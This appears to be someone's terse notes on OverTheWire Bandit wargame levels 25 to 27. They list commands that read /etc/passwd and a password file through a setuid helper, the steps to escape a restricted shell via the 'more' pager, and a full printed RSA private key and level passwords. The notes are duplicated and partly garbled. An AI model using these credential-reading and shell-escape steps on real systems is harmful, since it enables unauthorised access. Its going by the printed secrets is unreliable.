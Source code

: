level 25-26
ssh bandit25@bandit.labs.overthewire.org -p 2220
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
cat /etc/passwd | grep bandit26
ls 
cat bandit26.sshkey
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----

cat /usr/bin/showtext
ssh -i bandit26.sshkey bandit26@localhost 
more -V
::
configurar /bin/bash
 ./bandit27-do cat /etc/bandit_pass/bandit27
 3ba3118a22e93127a4ed485be72ef5ea
 exit

level 26-27
cat /usr/bin/showtext
ssh -i bandit26.sshkey bandit26@localhost 
more -V
::
configurar /bin/bash
 ./bandit27-do cat /etc/bandit_pass/bandit27
 3ba3118a22e93127a4ed485be72ef5ea
 exit
ssh bandit27@bandit.labs.overthewire.org -p
 3ba3118a22e93127a4ed485be72ef5ea
 